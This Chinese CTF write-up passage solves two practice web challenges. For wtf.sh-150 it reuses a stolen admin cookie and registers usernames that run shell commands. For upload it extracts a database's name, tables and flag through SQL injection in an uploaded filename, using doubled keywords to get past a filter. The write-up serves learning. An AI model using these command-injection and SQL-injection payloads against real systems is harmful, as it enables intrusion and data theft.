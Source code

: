 ```php
$   then
$       get_flag1
$   fi
$ fi
</html>
```
当使用admin登录即可获取flag1，经发现有users目录，获取到了admin的cookie
![](https://img-blog.csdnimg.cn/20200330152258129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
那么使用admin的cookie登录即可得到一半的flag
![](https://img-blog.csdnimg.cn/20200330154019677.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
### 第二段flag
在评论功能处如果用户名是一段可执行代码，而且写入的文件是 wtf 格式的，那么这个文件就能够执行我们想要的代码
注册用户：`${find,/,-iname,get_flag2} `
![](https://img-blog.csdnimg.cn/20200330155917161.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

**%09是水平制表符，必须添加，不然后台会把我们的后门当做目录去解析**

![](https://img-blog.csdnimg.cn/20200330160257680.png)
最后获取内容，注册用户：`$/usr/bin/get_flag2`
![](https://img-blog.csdnimg.cn/20200330160528631.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20200330160614210.png)

参考：[攻防世界WEB进阶之wtf.sh-150](https://blog.csdn.net/harry_c/article/details/100748217)
[记录一道神仙CTF-wtf.sh-150](https://www.cnblogs.com/wangtanzhi/p/11214333.html)

## upload
尝试上传各种文件，发现只有jpg上传成功，查看wp发现是注入？？？？？？
由于有过滤，使用利用selselectect和frfromom双写绕过。
`s'+(selselectect CONV(substr(hex(database()),1,12),16,10))+'.jpg`
**这里用到了CONV,substr,hex：**
不转成数字，完全没有回显结果，所以用hex先将字符转换成16进制，然后用CONV函数将16进制转化为10进制，依次获取子串的12位，用substr截取12是因为一旦过长，会用科学计数法表示。
`s'+(selselectect CONV(substr(hex(dAtaBase()),13,12),16,10))+'.jpg`得到后半段
![](https://img-blog.csdnimg.cn/20200330165021238.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
再转换为16进制得到web_upload
```sql
s'+(seleselectct+CONV(substr(hex((selselectect table_name frfromom information_schema.tables where table_schema='web_upload' limit 1,1)),1,12),16,10))+'.jpg
s'+(seleselectct+CONV(substr(hex((selselectect table_name frfromom information_schema.tables where table_schema='web_upload' limit 1,1)),13,12),16,10))+'.jpg
s'+(seleselectct+CONV(substr(hex((selselectect table_name frfromom information_schema.tables where table_schema='web_upload' limit 1,1)),25,12),16,10))+'.jpg
得到hello_flag_is_here
s '+(seleselectct+CONV(substr(hex((seselectlect COLUMN_NAME frfromom information_schema.COLUMNS where TABLE_NAME = 'hello_flag_is_here' limit 0,1)),1,12),16,10))+'.jpg
得到i_am_flag
s '+(seleselectct+CONV(substr(hex((selselectect i_am_flag frfromom hello_flag_is_here limit 0,1)),1,12),16,10))+'.jpg
得到!!_@m_Th.e_F!lag
```
这题比较难想，还有将字符转换为数字很巧妙，实属劝退。。。。
参考：
[攻防世界进阶upload](https://blog.csdn.net/Yu_csdnstory/article/details/94750179)
[攻防世界 upload](https://www.cnblogs.com/sharpff/p/10728498.html)